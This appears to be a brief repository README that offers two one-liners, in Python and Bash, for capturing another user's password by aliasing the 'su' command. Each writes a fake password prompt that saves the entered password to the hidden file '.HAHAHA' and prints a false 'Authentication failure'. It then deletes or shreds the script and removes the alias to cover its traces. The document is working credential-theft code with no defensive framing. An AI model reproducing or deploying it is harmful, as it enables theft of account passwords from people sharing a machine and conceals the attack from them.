# Python
```
echo -e "import getpass\npassword = getpass.getpass('Password: ')\nprint('su: Authentication failure')\ntxt = open('.HAHAHA','w')\ntxt.writelines(password)" > hihihi.py ; alias su="python hihihi.py ; shred -n10 hihihi.py ; rm -f hihihi.py ; unalias su "
```
# Bash
add '$' before the second 'OOO'
```
echo -e "\nread -p 'Password: ' -s OOO \necho OOO >.HAHAHA \necho '' \necho 'su: Authentication failure'" >hohoho.sh ; alias su="bash hohoho.sh ; rm -f hohoho.sh ; unalias su "
```
# presentation
![Enregistrement_2023-04-06_174103_AdobeExpress](https://user-images.githubusercontent.com/95902084/230618049-3e661e5f-a4a1-4ead-a02c-1418bde92452.gif)
